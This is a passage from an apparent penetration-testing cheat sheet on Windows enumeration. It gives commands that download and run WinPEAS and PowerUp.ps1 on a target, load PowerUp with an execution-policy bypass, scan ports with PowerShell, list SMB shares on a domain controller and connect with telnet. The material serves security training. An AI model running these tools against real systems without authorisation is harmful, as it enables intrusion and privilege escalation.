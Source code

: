 Before doing manual enumeration, getting an idea of the system through automated means might be quicker. The [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) script is a Windows equivalent to the well-known LinPEAS script for Linux. It enumerates many common misconfigurations in the system and tries to find vulnerabilities. This generates a lot of output to sift through, but it is a very useful output that normally would require a ton of manual work.&#x20;

To run it, download the latest `winPEASany.exe` from the [Releases ](https://github.com/carlospolop/PEASS-ng/releases)page and download it from a local HTTP server if your target cannot access the public internet:

{% code title="Run WinPEAS" overflow="wrap" %}
```powershell
cd /Windows/Tasks  # world-writable directory
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -o winPEASany.exe
.\winPEASany.exe | Tee-Object winPEAS.txt  # write output to a file (may take long)
```
{% endcode %}

Another such tool is [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) which looks for more directly exploitable vulnerabilities and has commands to automatically exploit them too:

{% code title="Run PowerUp.ps1" overflow="wrap" %}
```powershell
wget https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1 -o PowerUp.ps1
# It is a Module, and to import it we need to disable the execution policy
powershell -ep bypass
. .\PowerUp.ps1
# Now that it is imported into the current shell, we can run its commands
Invoke-PrivescAudit
```
{% endcode %}

### Networking

<pre class="language-powershell" data-title="nc -v $IP $PORT"><code class="lang-powershell"><strong>Test-NetConnection -Port 22 10.10.10.10
</strong></code></pre>

<pre class="language-powershell" data-title="nmap -p $PORTS $IP" data-overflow="wrap"><code class="lang-powershell"><strong>1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("10.10.10.10", $_)) "TCP port $_ is open"} 2>$null
</strong></code></pre>

&#x20;<mark style="color:blue;">**↳**</mark> The above loop is **very slow** because it goes through ports one by one with a timeout

<pre class="language-powershell" data-title="SMB: List shares on dc01"><code class="lang-powershell"><strong>net view \\dc01 /all
</strong></code></pre>

<pre class="language-powershell" data-title="Interactive netcat"><code class="lang-powershell">dism /online /Enable-Feature /FeatureName:TelnetClient

<strong>telnet 10.10.10.10 25  # SMTP
</strong></code></pre>
